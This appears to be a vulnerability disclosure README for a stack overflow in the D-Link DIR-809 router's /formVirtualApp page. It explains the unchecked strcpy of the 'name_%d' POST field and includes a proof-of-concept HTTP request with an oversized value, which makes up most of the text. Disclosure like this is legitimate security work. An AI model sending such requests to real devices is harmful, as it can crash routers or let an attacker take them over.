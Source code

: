 # D-Link DIR809 Vulnerability

The Vulnerability is in page `/formVirtualApp` which influences the latest version of this router OS. 

The firmware version is [DIR-809Ax_FW1.12WWB03_20190410](http://www.dlinktw.com.tw/techsupport/ProductInfo.aspx?m=DIR-809) 

## Progress

- Confirmed by vendor. 


## Vulnerability description

In the function `FUN_8004776c` ( page `/formVirtualApp` ), we find a stack overflow vulnerability, which allows attackers to execute arbitrary code on system via a crafted post request. 

Here is the description,  

1. The `get_var` function extracts user input from the a http request. For example, the code below will extract the value of a key of format `"name_%d"` in the http post request which is completely under the attacker's control. 
2. The string `pcVar2` obtained from user is copied onto the stack using `strcpy` without checking its length. So we can make the stack buffer overflow in `local_f8`. 

![2021-05-10_10h22_15](README/2021-05-10_10h22_15.png)



## PoC

``` 
POST /formVirtualApp.htm HTTP/1.1
Host: 192.168.0.1
Content-Length: 3894
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://192.168.0.1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.66 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://192.168.0.1/Advanced/Virtual_Server_Server.asp?t=1620547787744
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: uid=jFLW3efjuL
Connection: close

settingsChanged=1&curTime=1620547811394&HNAP_AUTH=A4C3C6EB82B72B04DB58611805409259+1620547811&submit-url=%2FAdvanced%2FVirtual_Server_Server.asp&index=1&enabled_0=0&used_0=0&name_0=123123123123123*0x200&default_virtual_servers_0=-1&public_port_0=8999&ip_0=192.168.0.21&computer_list_ipaddr_select_0=-1&private_port_0=8999&protocol_0=1&index=2&enabled_1=0&used_1=0&name_1=&default_virtual_servers_1=-1&public_port_1=&ip_1=&computer_list_ipaddr_select_1=-1&private_port_1=&protocol_1=1&index=3&enabled_2=0&used_2=0&name_2=&default_virtual_servers_2=-1&public_port_2=&ip_2=&computer_list_ipaddr_select_2=-1&private_port_2=&protocol_2=1&index=4&enabled_3=0&used_3=0&name_3=&default_virtual_servers_3=-1&public_port_3=&ip_3=&computer_list_ipaddr_select_3=-1&private_port_3=&protocol_3=1&index=5&enabled_4=0&used_4=0&name_4=&default_virtual_servers_4=-1&public_port_4=&ip_4=&computer_list_ipaddr_select_4=-1&private_port_4=&protocol_4=1&index=6&enabled_5=0&used_5=0&name_5=&default_virtual_servers_5=-1&public_port_5=&ip_5=&computer_list_ipaddr_select_5=-1&private_port_5=&protocol_5=1&index=7&enabled_6=0&used_6=0&name_6=&default_virtual_servers_6=-1&public_port_6=&ip_6=&computer_list_ipaddr_select_6=-1&private_port_6=&protocol_6=1&index=8&enabled_7=0&used_7=0&name_7=&default_virtual_servers_7=-1&public_port_7=&ip_7=&computer_list_ipaddr_select_7=-1&private_port_7=&protocol_7=1&index=9&enabled_8=0&used_8=0&name_8=&default_virtual_servers_8=-1&public_port_8=&ip_8=&computer_list_ipaddr_select_8=-1&private_port_8=&protocol_8=1&index=10&enabled_9=0&used_9=0&name_9=&default_virtual_servers_9=-1&public_port_9=&ip_9=&computer_list_ipaddr_select_9=-1&private_port_9=&protocol_9=1&index=11&enabled_10=0&used_10=0&name_10=&default_virtual_servers_10=-1&public_port_10=&ip_10=&computer_list_ipaddr_select_10=-1&private_port_10=&protocol_10=1&index=12&enabled_11=0&used_11=0&name_11=&default_virtual_servers_11=-1&public_port_11=&ip_11=&computer_list_ipaddr_select_11=-1&private_port_11=&protocol_11=1&index=13&enabled_12=0&used_12=0&name_12=&default_virtual_servers_12=-1&public_port_12=&ip_12=&computer_list_ipaddr_select_12=-1&private_port_12=&protocol_12=1&index=14&enabled_13=0&used_13=0&name_13=&default_virtual_servers_13=-1&public_port_13=&ip_13=&computer_list_ipaddr_select_13=-1&private_port_13=&protocol_13=1&index=15&enabled_14=0&used_14=0&name_14=&default_virtual_servers_14=-1&public_port_14=&ip_14=&computer_list_ipaddr_select_14=-1&private_port_14=&protocol_14=1&index=16&enabled_15=0&used_15=0&name_15=&default_virtual_servers_15=-1&public_port_15=&ip_15=&computer_list_ipaddr_select_15=-1&private_port_15=&protocol_15=1&index=17&enabled_16=0&used_16=0&name_16=&default_virtual_servers_16=-1&public_port_16=&ip_16=&computer_list_ipaddr_select_16=-1&private_port_16=&protocol_16=1&index=18&enabled_17=0&used_17=0&name_17=&default_virtual_servers_17=-1&public_port_17=&ip_17=&computer_list_ipaddr_select_17=-1&private_port_17=&protocol_17=1&index=19&enabled_18=0&used_18=0&name_18=&default_virtual_servers_18=-1&public_port_18=&ip_18=&computer_list_ipaddr_select_18=-1&private_port_18=&protocol_18=1&index=20&enabled_19=0&used_19=0&name_19=&default_virtual_servers_19=0&public_port_19=&ip_19=&computer_list_ipaddr_select_19=-1&private_port_19=&protocol_19=1&index=21&enabled_20=0&used_20=0&name_20=&default_virtual_servers_20=0&public_port_20=&ip_20=&computer_list_ipaddr_select_20=-1&private_port_20=&protocol_20=1&index=22&enabled_21=0&used_21=0&name_21=&default_virtual_servers_21=-1&public_port_21=&ip_21=&computer_list_ipaddr_select_21=-1&private_port_21=&protocol_21=1&index=23&enabled_22=0&used_22=0&name_22=&default_virtual_servers_22=-1&public_port_22=&ip_22=&computer_list_ipaddr_select_22=-1&private_port_22=&protocol_22=1&index=24&enabled_23=0&used_23=0&name_23=&default_virtual_servers_23=-1&public_port_23=&ip_23=&computer_list_ipaddr_select_23=-1&private_port_23=&protocol_23=1

```